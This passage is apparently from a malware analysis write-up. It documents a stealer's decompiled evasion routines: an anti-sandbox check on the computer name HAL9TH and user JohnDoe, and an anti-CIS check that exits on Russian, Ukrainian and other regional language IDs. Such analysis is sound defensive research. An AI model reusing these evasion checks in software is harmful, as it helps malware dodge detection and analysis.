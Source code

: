 ```cpp
  LPSTR computername; // eax
  int result; // eax
  CHAR *username; // eax
  CHAR *v3; // [esp-4h] [ebp-4h]
  _BYTE *v4; // [esp-4h] [ebp-4h]

  v3 = (CHAR *)HAL9TH;
  computername = mlw_get_computername();
  result = strcmp(computername, v3);
  if ( !result )
  {
    v4 = (_BYTE *)JohnDoe;
    username = mlw_get_username();
    result = strcmp(username, v4);
    if ( !result )
      ExitProcess(0);
  }
  return result;
}
```
More on this can be read [here](https://book.hacktricks.xyz/windows-hardening/av-bypass)

# Anti Cis

Doesn't let stealer run on pc for residents of former cis countries.

```cpp
int mlw_anti_cis()
{
  int lang; // eax

  lang = GetUserDefaultLangID();
  switch ( (__int16)lang )
  {
    case 1049:                                  // Russia
      ExitProcess(0);
    case 1058:                                  // Ukrainian (Ukraine)
      ExitProcess(0);
    case 1059:                                  // Belarusian (Belarus)
      ExitProcess(0);
    case 1087:                                  // Kazakh (Kazakhstan)
      ExitProcess(0);
    case 1091:                                  // Uzbek (Latin, Uzbekistan)
      ExitProcess(0);
    default:
      return lang;
  }
}
```

# Anti double run
